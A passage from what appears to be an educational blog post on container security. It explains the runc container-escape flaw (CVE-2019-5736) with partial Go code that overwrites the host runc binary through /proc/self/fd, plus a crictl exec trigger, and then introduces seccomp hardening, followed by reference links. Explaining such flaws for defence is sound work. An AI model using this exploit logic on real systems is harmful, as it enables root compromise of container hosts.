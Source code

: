 ```go
	)
	if err != nil {
		// …
	}
	if int(handle.Fd()) > 0 {
		handleFd = int(handle.Fd())
	}
}
log.Println("successfully got the file handle")
```

The attacker is now able to retrieve the right PID if we now do the `exec`:

```bash
> sudo crictl exec -it my-container /bin/sh
```

Now the attacker can retrieve another file descriptor to
`/proc/self/fd/handleFd`, which allows overwriting the binary on the host. If
runc now exits, then the attacker is able to run arbitrary commands as root on
the host.

```go
const payload = "#!/bin/bash \n whoami"

for {
	writeHandle, err := os.OpenFile(
		"/proc/self/fd/"+strconv.Itoa(handleFd),
		os.O_WRONLY|os.O_TRUNC, 0o700,
	)
	if err != nil {
		// …
	}
	if int(writeHandle.Fd()) > 0 {
		log.Println("successfully got write handle", writeHandle)
		writeHandle.Write([]byte(payload))
		break
	}
}
```

An attacker could now execute any arbitrary `payload` on the host system which
is now highly compromised with the overwritten runc binary.

Preventing such issues is not possible in every case, but container-based
workloads can be security hardened with additional patterns, for example by
applying Secure Computing (seccomp) profiles.

### Secure Computing (Seccomp)

[Seccomp][70] provides an enhanced way to filter syscalls issued by a program to
reduce the Kernels’ attack surface. It is especially useful when running
untrusted third-party programs and was introduced back in 2005 in Linux version
2.6.12 as an essential building block of the `cpushare` application. Most of the
available system calls are not necessary during program execution. By
restricting what system calls can be made, seccomp provides a great addition for
building modern application sandboxes.


[10]: https://kubernetes.io
[11]: https://en.wikipedia.org/wiki/Common_Vulnerabilities_and_Exposures
[12]: https://en.wikipedia.org/wiki/DevOps
[13]: https://www.devsecops.org/blog/2015/2/15/what-is-devsecops
[14]: https://aws.amazon.com/eks
[15]: https://cloud.google.com/kubernetes-engine
[16]: https://azure.microsoft.com/en-in/services/kubernetes-service
[17]: https://suse.com/products/caas-platform
[18]: https://openshift.com
[20]: https://github.com/saschagrunert/demystifying-containers#table-of-contents
[21]: http://man7.org/linux/man-pages/man7/namespaces.7.html
[22]: https://nvd.nist.gov/vuln/detail/CVE-2018-18955
[23]: https://lwn.net/Articles/486306
[24]: http://man7.org/linux/man-pages/man7/capabilities.7.html
[30]: http://man7.org/linux/man-pages/man7/capabilities.7.html
[31]: http://man7.org/linux/man-pages/man7/xattr.7.html
[32]: https://podman.io
[33]: https://opencontainers.org
[34]: https://github.com/opencontainers/runc
[35]: https://sourceware.org/systemtap
[36]: https://en.wikipedia.org/wiki/DTrace
[37]: https://kernel.org/doc/Documentation/kprobes.txt
[38]: https://github.com/iovisor/bcc/blob/master/tools/capable.py
[39]: https://kubernetes.io/docs/reference/command-line-tools-reference/kubelet
[40]: https://github.com/saschagrunert/demystifying-containers/blob/master/part3-container-images/post.md
[41]: https://debian.org
[42]: https://ubuntu.com
[43]: https://prometheus.io
[44]: https://en.wikipedia.org/wiki/Kibana
[45]: https://grafana.com
[46]: https://grafana.com/oss/loki
[47]: https://kubernetes.io/docs/concepts/storage/persistent-volumes
[48]: https://alpinelinux.org
[49]: https://quay.io
[50]: https://securitytxt.org
[51]: https://gnupg.org
[52]: https://github.com/containers/skopeo
[53]: https://cri-o.io
[54]: https://openpgp.org
[55]: https://en.wikipedia.org/wiki/JSON_Web_Encryption
[56]: https://en.wikipedia.org/wiki/Cryptographic_Message_Syntax
[57]: https://containerd.io
[58]: https://docker.com
[59]: https://katacontainers.io
[60]: https://nvd.nist.gov/vuln/detail/CVE-2019-5736
[70]: https://en.wikipedia.org/wiki/Seccomp
[71]: https://chromium.org
[72]: https://openssh.com
[73]: https://security.appspot.com/vsftpd.html
[74]: https://en.wikipedia.org/wiki/Firefox_OS
[90]: https://en.wikipedia.org/wiki/Security-Enhanced_Linux
[91]: https://en.wikipedia.org/wiki/AppArmor
[92]: https://kubernetes.io/docs/concepts/configuration/secret
[80]: https://istio.io
[81]: https://linkerd.io